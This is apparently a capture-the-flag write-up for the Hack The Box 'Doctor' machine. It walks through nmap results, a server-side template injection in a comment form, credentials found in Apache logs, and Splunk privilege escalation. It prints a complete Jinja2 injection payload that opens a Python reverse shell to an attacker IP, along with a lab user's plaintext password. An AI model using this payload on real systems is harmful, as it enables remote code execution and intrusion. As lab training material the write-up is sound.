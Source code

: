 # doctors



### nmap

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



#### web



![image-20201006194015139](doctors.assets/image-20201006194015139.png)

vhosting is enabled

```
domain						doctors.htb
```



- login form appears when using domain name

![image-20201006194350182](doctors.assets/image-20201006194350182.png)



- reviewing the source code we find a archive 

![image-20201006195014885](doctors.assets/image-20201006195014885.png)





#### exploit



```
server side template injection is present
```

![image-20201006195557863](doctors.assets/image-20201006195557863.png)

![image-20201006195622430](doctors.assets/image-20201006195622430.png)



### shell

- posting this in comment gives us a reverse shell

```
</title></item>{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.43\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```



- template injection is in the header

![image-20201006200150400](doctors.assets/image-20201006200150400.png)



### privilege escalation

- for user shaun found credentials in /var/log/apache2

![image-20201006200624822](doctors.assets/image-20201006200624822.png)



##### credentials

```
username: shaun
password: Guitar123
```



![image-20201006200930742](doctors.assets/image-20201006200930742.png)



##### root

for root we need will use splunk priv esc method using splunkwhisperer

[github repository](https://github.com/cnotin/SplunkWhisperer2)

got the root hash

![image-20201006201235091](doctors.assets/image-20201006201235091.png)
